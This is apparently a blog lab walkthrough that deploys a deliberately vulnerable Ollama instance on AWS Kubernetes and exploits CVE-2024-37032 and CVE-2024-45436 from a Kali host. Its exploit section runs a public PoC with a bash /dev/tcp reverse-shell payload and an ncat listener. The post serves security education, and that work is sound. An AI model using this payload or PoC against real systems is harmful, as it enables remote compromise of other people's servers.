

[Ollama](https://ollama.com/) has become a popular tool for running large
language models locally. However, like any software, it can have
vulnerabilities. This post provides a technical deep dive into two critical
vulnerabilities: [CVE-2024-37032](https://nvd.nist.gov/vuln/detail/cve-2024-37032)
and [CVE-2024-45436](https://nvd.nist.gov/vuln/detail/CVE-2024-45436). These
vulnerabilities allow for remote code execution (RCE) in older versions of
Ollama.

<!-- prettier-ignore-start -->
> This demonstration is for educational purposes only.
{: .prompt-info }
<!-- prettier-ignore-end -->

We will walk through a step-by-step demonstration of how an attacker could
exploit these vulnerabilities in an Ollama instance running in a Kubernetes
cluster. Understanding these attack vectors is crucial for building robust
security postures.

References:

- [CVE-2024-37032 Detail](https://nvd.nist.gov/vuln/detail/cve-2024-37032)
- [CVE-2024-37032 & CVE-2024-45436 Ollama RCE](https://github.com/pankass/CVE-2024-37032_CVE-2024-45436)

Diagram:



## Prerequisites

Before we begin, ensure you have the following tools installed and configured:

- [AWS CLI](https://aws.amazon.com/cli/) with appropriate permissions to create
  resources.
- [rain](https://github.com/aws-cloudformation/rain): A delightful CLI for AWS
  CloudFormation.
- [helm](https://helm.sh/docs/intro/install/): The package manager for
  Kubernetes.

## Environment Setup

The following variables are used in the subsequent steps:

```bash
# AWS Region
export AWS_REGION="${AWS_REGION:-us-east-1}"
# Hostname / FQDN definitions
export AWS_EC2_KEY_PAIR_NAME="ollama-test"
export CLUSTER_FQDN="${CLUSTER_FQDN:-k01.k8s.mylabs.dev}"
# Base Domain: k8s.mylabs.dev
export BASE_DOMAIN="${CLUSTER_FQDN#*.}"
# Cluster Name: k01
export CLUSTER_NAME="${CLUSTER_FQDN%%.*}"
export SOLUTION_KALI="KaliLinux-NICE-DCV"
export TMP_DIR="${TMP_DIR:-${PWD}}"
export KUBECONFIG="${KUBECONFIG:-${TMP_DIR}/${CLUSTER_FQDN}/kubeconfig-${CLUSTER_NAME}.conf}"
# Tags used to tag the AWS resources
export TAGS="${TAGS:-Owner=${MY_EMAIL},Environment=dev,Cluster=${CLUSTER_FQDN}}"
mkdir -pv "${TMP_DIR}/${CLUSTER_FQDN}"
```

## AWS EC2 instance with Kali Linux

Launch an AWS EC2 instance with [Kali Linux](https://www.kali.org/) using a
[CloudFormation template](https://github.com/aws-samples/amazon-ec2-nice-dcv-samples/blob/main/cfn/KaliLinux-NICE-DCV.yaml).

```bash
# Download the CloudFormation templates
# renovate: currentValue=master
wget --continue -q -P "${TMP_DIR}" https://raw.githubusercontent.com/aws-samples/aws-codebuild-samples/00284b828a360aa89ac635a44d84c5a748af03d3/ci_tools/vpc_cloudformation_template.yml
# renovate:
wget --continue -q -P "${TMP_DIR}" https://raw.githubusercontent.com/aws-samples/amazon-ec2-nice-dcv-samples/2a0cddbdf9bf15dce3faaaf33dc499e52db7423c/cfn/KaliLinux-NICE-DCV.yaml

## Create a new AWS EC2 Key Pair to be used for the EC2 instances
aws ec2 create-key-pair --key-name "${AWS_EC2_KEY_PAIR_NAME}" --key-type ed25519 --query "KeyMaterial" --output text > "${TMP_DIR}/${AWS_EC2_KEY_PAIR_NAME}.pem"
chmod 600 "${TMP_DIR}/${AWS_EC2_KEY_PAIR_NAME}.pem"

# Deploy the VPC CloudFormation stack for the Kali Linux environment
rain deploy --yes "${TMP_DIR}/vpc_cloudformation_template.yml" "${SOLUTION_KALI}-VPC" \
  --params "EnvironmentName=${SOLUTION_KALI}" \
  --tags "Owner=${USER},Environment=dev,Solution=${SOLUTION_KALI}"

# Extract VPC and Subnet IDs from the CloudFormation stack outputs
AWS_CLOUDFORMATION_DETAILS=$(aws cloudformation describe-stacks --stack-name "${SOLUTION_KALI}-VPC" --query "Stacks[0].Outputs[? OutputKey==\`PublicSubnet1\` || OutputKey==\`VPC\`].{OutputKey:OutputKey,OutputValue:OutputValue}")
AWS_VPC_ID=$(echo "${AWS_CLOUDFORMATION_DETAILS}" | jq -r ".[] | select(.OutputKey==\"VPC\") .OutputValue")
AWS_SUBNET_ID=$(echo "${AWS_CLOUDFORMATION_DETAILS}" | jq -r ".[] | select(.OutputKey==\"PublicSubnet1\") .OutputValue")

# Deploy the Kali Linux EC2 instance using the CloudFormation template
rain deploy --yes --node-style original "${TMP_DIR}/KaliLinux-NICE-DCV.yaml" "${SOLUTION_KALI}" \
  --params "ec2KeyPair=${AWS_EC2_KEY_PAIR_NAME},vpcID=${AWS_VPC_ID},subnetID=${AWS_SUBNET_ID},ec2TerminationProtection=No,allowWebServerPorts=HTTP-and-HTTPS" \
  --tags "Owner=${USER},Environment=dev,Solution=${SOLUTION_KALI}"
```

Configure SSH access to the Kali Linux instance:

```bash
AWS_EC2_KALI_PUBLIC_IP=$(aws ec2 describe-instances --filters "Name=tag:Solution,Values=${SOLUTION_KALI}" --query "Reservations[].Instances[].PublicIpAddress" --output text)
ssh -i "${TMP_DIR}/${AWS_EC2_KEY_PAIR_NAME}.pem" -o StrictHostKeyChecking=no "kali@${AWS_EC2_KALI_PUBLIC_IP}" 'curl -Ls https://github.com/ruzickap.keys >> ~/.ssh/authorized_keys'
```

## Enabling Karpenter to Provision amd64 Node Pools

To enable Karpenter to provision an amd64 node pool, create a new NodePool
resource as shown below:

```bash
tee "${TMP_DIR}/${CLUSTER_FQDN}/k8s-karpenter-nodepool-amd64.yml" << EOF | kubectl apply -f -
apiVersion: karpenter.sh/v1
kind: NodePool
metadata:
  name: my-default-amd64
spec:
  template:
    spec:
      nodeClassRef:
        group: eks.amazonaws.com
        kind: NodeClass
        name: my-default
      requirements:
        - key: kubernetes.io/arch
          operator: In
          values: ["amd64"]
  limits:
    cpu: 2
    memory: 4Gi
EOF
```

## Deploying Vulnerable Ollama Instance

Install the `ollama` [Helm chart](https://github.com/otwld/ollama-helm/tree/ollama-1.23.0)
and modify its [default values](https://github.com/otwld/ollama-helm/blob/ollama-1.23.0/values.yaml)
to deploy a vulnerable version (`0.1.33`):

```bash
OLLAMA_HELM_CHART_VERSION="1.23.0"

helm repo add otwld https://helm.otwld.com/
tee "${TMP_DIR}/${CLUSTER_FQDN}/helm_values-ollama.yml" << EOF
image:
  tag: 0.1.33
ingress:
  enabled: true
  hosts:
    - host: ollama-vulnerable.${CLUSTER_FQDN}
      paths:
        - path: /
          pathType: Prefix
  tls:
    - hosts:
        - ollama-vulnerable.${CLUSTER_FQDN}
nodeSelector:
  kubernetes.io/arch: amd64
EOF
helm upgrade --install --version "${OLLAMA_HELM_CHART_VERSION}" --namespace ollama --create-namespace --wait --values "${TMP_DIR}/${CLUSTER_FQDN}/helm_values-ollama.yml" ollama otwld/ollama
```

## Exploit Execution

Now, let's execute the exploit from the Kali Linux instance.

```bash
AWS_EC2_KALI_PUBLIC_IP=$(aws ec2 describe-instances --filters "Name=tag:Solution,Values=${SOLUTION_KALI}" --query "Reservations[].Instances[].PublicIpAddress" --output text)
# shellcheck disable=SC2087
ssh -i "${TMP_DIR}/${AWS_EC2_KEY_PAIR_NAME}.pem" -o StrictHostKeyChecking=no "kali@${AWS_EC2_KALI_PUBLIC_IP}" << EOF
set -euxo pipefail

# Install dependencies
sudo apt update -qq && sudo apt install -qqy golang-go ncat

# Run ncat
echo -e "pwd \n ps -elf \n whoami" | sudo ncat -lnvp 80 --idle-timeout 5 --output /tmp/ncat.log &

# Clone the exploit repository
git clone https://github.com/pankass/CVE-2024-37032_CVE-2024-45436.git
cd CVE-2024-37032_CVE-2024-45436 || exit

# Run the exploit
# The target is our vulnerable Ollama service.
# The -exec payload will create a reverse shell back to our Kali instance.
go run main.go -target "https://ollama-vulnerable.${CLUSTER_FQDN}" -exec "bash -i >& /dev/tcp/${AWS_EC2_KALI_PUBLIC_IP}/80 0>&1"
EOF
```

Review the results of the commands executed on the compromised container, as
captured by ncat:

```bash
cat /tmp/ncat.log
```

```console
```

View Ollama Pod Logs:

```bash
kubectl logs -n ollama "$(kubectl get pods -n ollama -o jsonpath='{.items[0].metadata.name}')"
```

```console
```

## Conclusion

This walkthrough demonstrated that CVE-2024-37032 and CVE-2024-45436 are
critical vulnerabilities that can lead to a full container compromise with
relative ease. While we used a specific public PoC, the underlying
vulnerability could be exploited in various ways.

The key takeaway is the importance of a defense-in-depth strategy. Relying on a
single security control is not enough. A combination of timely patching,
network segmentation, least-privilege principles, and continuous monitoring is
essential to protect your Kubernetes workloads from evolving threats.

## Cleanup

Delete the Kali Linux EC2 instance, EC2 Key Pair, and related CloudFormation
stack:

```sh
export AWS_REGION="${AWS_REGION:-us-east-1}"
export AWS_EC2_KEY_PAIR_NAME="ollama-test"
export SOLUTION_KALI="KaliLinux-NICE-DCV"
export CLUSTER_FQDN="${CLUSTER_FQDN:-k01.k8s.mylabs.dev}"
export CLUSTER_NAME="${CLUSTER_FQDN%%.*}"
export TMP_DIR="${TMP_DIR:-${PWD}}"
export KUBECONFIG="${KUBECONFIG:-${TMP_DIR}/${CLUSTER_FQDN}/kubeconfig-${CLUSTER_NAME}.conf}"

aws cloudformation delete-stack --stack-name "${SOLUTION_KALI}"

if eksctl get cluster --name="${CLUSTER_NAME}"; then
  eksctl delete cluster --name="${CLUSTER_NAME}" --force
fi

aws cloudformation delete-stack --stack-name "${SOLUTION_KALI}-VPC"
aws ec2 delete-key-pair --key-name "${AWS_EC2_KEY_PAIR_NAME}"

for FILE in ${TMP_DIR}/{vpc_cloudformation_template.yml,KaliLinux-NICE-DCV.yaml,${AWS_EC2_KEY_PAIR_NAME}.pem,helm_values-ollama.yml,kubeconfig-${CLUSTER_NAME}.conf}; do
  if [[ -f "${FILE}" ]]; then
    rm -v "${FILE}"
  else
    echo "*** File not found: ${FILE}"
  fi
done
```

Enjoy ... 😉
